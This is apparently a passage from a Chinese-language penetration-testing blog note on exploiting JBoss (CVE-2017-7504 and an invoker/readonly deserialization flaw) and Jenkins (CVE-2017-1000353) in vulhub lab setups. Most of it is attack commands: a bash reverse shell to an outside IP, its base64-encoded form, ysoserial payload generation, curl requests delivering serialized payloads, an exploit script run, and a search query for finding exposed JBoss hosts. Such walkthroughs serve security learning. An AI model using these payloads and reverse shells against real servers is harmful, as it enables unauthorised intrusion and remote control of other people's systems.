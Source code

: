 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134647924-417960915.png)

```plain
在用crul请求，把这个包发送出去：G:\cmd\nc-lcx-curl\curl.exe http://192.168.233.128:8080/invoker/readonly --data-binary @poc.ser
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648494-1504975389.png)

```plain
2、CVE-2017-7504

启动环境：
cd /vulhub-master/jboss/CVE-2017-7504
sudo docker-compose up -d

访问：http://192.168.233.128:8080/
利用工具：ysoserial-master-30099844c6-1.jar

利用过程：
先对反弹shell进行编码：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=
生成：java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}" > 1.ser
利用crul去发送数据包：G:\cmd\nc-lcx-curl\curl.exe http://192.168.233.128:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648410-997260203.png)

```plain
3、弱口令 未授权访问见手册
语法："JBoss" && title=="Welcome to JBoss&trade;"
```

- 中间件-Jenkins-工具脚本搜哈

```plain
探针默认端口：8080，Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作。

1、cve_2017_1000353 需要用到JDK-1.8.0_291 其他版本失效
项目地址：http://github.com/vulhub/CVE-2017-1000353
环境：http://vulfocus.io/#/dashboard

利用过程：
先对反弹shell进行编码：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=
生成jenkins_poc.ser文件（需要用JDK-1.8.0_291版本）：G:\jdk-8u291\bin\java.exe -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}"
在利用python3去运行请求：G:\python38\python.exe exploit.py http://123.58.236.76:27904/ jenkins_poc.ser
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134648876-1834126985.png)
